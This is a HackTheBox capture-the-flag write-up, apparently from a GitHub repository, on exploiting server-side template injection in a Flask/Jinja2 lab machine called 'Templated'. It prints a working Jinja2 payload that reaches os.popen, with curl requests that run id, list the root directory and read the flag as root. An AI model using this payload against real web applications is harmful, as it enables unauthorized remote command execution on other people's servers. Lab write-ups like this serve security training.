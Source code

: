 # Templated - HackTheBox
Hello! I am `skelet0n` and in this writeup we will exploit a **Server Side Template Injection** vulnerability on a **HackTheBox** machine, "**Templated**."

## Introduction to SSTI
A server-side template injection (**SSTI**) occurs when an attacker is able to use native **template syntax** to inject a malicious payload into a template, which is then executed **server-side**.

## 🏗️ Getting our hands dirty
Let's connect using `openvpn` to `HTB`'s network and then start recon on the machine.

```bash
$ sudo openvpn skelly.ovpn &
[1] x
[1] x suspended (tty output)  sudo openvpn skelly.ovpn
```

Now we should be able to access the website.

```bash
$ curl http://46.101.84.151:32488/
*   Trying 46.101.84.151:32488...
* Connected to 46.101.84.151 (46.101.84.151) port 32488 (#0)
> GET / HTTP/1.1
> Host: 46.101.84.151:32488
> User-Agent: curl/7.85.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 79
< Server: Werkzeug/1.0.1 Python/3.9.0
< Date: Tue, 07 Feb 2023 15:42:44 GMT
< 

<h1>Site still under construction</h1>
<p>Proudly powered by Flask/Jinja2</p>
* Closing connection 0
```
*yes I am a terminal guy*

We can see `Werkzeug` is used on the website. This opens a new attack vector for us. The debugger that `Werkzeug` provides to the developer is known to be vulnerable to key generation attacks. The debugger usually lies on the `/console` page.

```bash
$ curl http://46.101.84.151:32488/console 

<h1>Error 404</h1>
<p>The page '<str>console</str>' could not be found</p>%
```

Notice the website reflects the page we searched for.
Therefore here is our **SSTI**.
Now that we know we can inject malicious payloads, we can use *Method Resolution Order* to make the *request* library which is used in *Flask* to import *os*, a builtin library that allows us to communicate with the shell.

Here is what the payload looks like:

```python
request.application.__globals__.__builtins__.__import__('os').popen('<COMMAND>').read()
```

We access the *global variables* and from there we access the built-ins that also contain the *os* library. 
We now import it using the *\__import\__* dunder and call a system command.


```bash
$ curl "http://46.101.84.151:32488/\{\{request.application.__globals__.__builtins__.__import__('os').popen('id').read()\}\}"


<h1>Error 404</h1>
<p>The page '<str>uid=0(root) gid=0(root) groups=0(root)
</str>' could not be found</p>%
```
*We use MRO to execute the **id** command*

Hey, turns out we are root! Let's search for the flag.

```bash
$ curl "http://46.101.84.151:32488/\{\{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()\}\}" 


<h1>Error 404</h1>
<p>The page '<str>bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</str>' could not be found</p>%

$ curl "http://46.101.84.151:32488/\{\{request.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()\}\}"


<h1>Error 404</h1>
<p>The page '<str>HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
</str>' could not be found</p>%
```

And we get the flag : )

## Goodbye

I hope you enjoyed this writeup. Make sure to give this repository a star if you did and open an issue if you didn't or have any ideas/suggestions.

- `skeleton`